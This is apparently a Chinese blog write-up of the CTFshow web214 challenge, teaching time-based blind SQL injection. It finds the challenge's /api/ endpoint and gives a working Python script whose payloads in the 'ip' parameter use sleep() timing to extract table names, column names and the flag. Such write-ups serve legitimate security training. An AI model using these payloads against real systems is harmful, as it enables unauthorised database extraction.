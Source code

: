 ```yaml
---
title: CTFshow web214 时间盲注
date: 2024-09-10 20:18:07
permalink: /pages/dfa81f/
sidebars: false
article: false
author: 
  name: the0n3
  link: https://the0n3.top
---
```


在ctfshow做了sql注入题目，迷迷糊糊的，第一次接触sql时间盲注

::: tip
时间盲注，例如执行select *from ctfshow_user where id = sleep(10);时，页面明显缓慢的加载了10秒才响应，说明sql语句执行成功

使用IF(condition, true_value, false_value)，当条件为真时，会执行true_value，否则执行false_value

IF(1=1,sleep(10),0)，当1=1时，执行sleep(10)，通过观察页面是否明显的缓慢加载，判断sql的if语句是否为真来实现sql时间盲注
:::

在做CTFshow web 214 sql时间盲注这题，发现一些细节

看其他师傅wp做，首页bp抓包还是f12看网络请求都没有发现api接口，直接dirsearch扫描了

![time0](https://the0n3.top/medias/show-sql/time0.png)

抓`/api/`的报文还是什么都没有

![214](https://the0n3.top/medias/show-sql/214.png)

在网络里看到`select.js`，点进去可以看到

```js
layui.use('element', function(){
  var element = layui.element;
  element.on('tab(nav)', function(data){
    console.log(data);
  });
});

$.ajax({
      url:'api/',
      dataType:"json",
      type:'post',
      data:{
        ip:returnCitySN["cip"],
        debug:0
      }

    });
```

ajax通过post请求/api/接口，有ip，debug的参数

hackbar发包，ip随便填，没有限制，debug的会影响页面是否回显。发包后返回了原sql语句`select id from ctfshow_info where ip = $_POST[ip]`，如果ip=sleep(3)，页面会缓慢的加载3秒后才响应，说明sleep执行成功

```python
import requests
import time
url = 'http://08d7032b-e019-444d-aeb7-2ba24dd99c9e.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名(当前数据库)
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆列
        # payload = {
        #     'ip': f"1 or if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flagx'),{i},1))<{j},sleep(0.5),'False')#",
        #     'debug': 0
        # }
        # 爆值
        payload = {
            'ip': f"1 or if(ascii(substr((select group_concat(flaga) from ctfshow_flagx),{i},1))<{j},sleep(0.5),'False')#",
            'debug': 0
        }
        start_time = time.time()
        r = requests.post(url=url, data=payload).text
        end_time = time.time()
        sub = end_time - start_time
        if sub >= 0.5:
            max = j
        else:
            min = j
```

GET!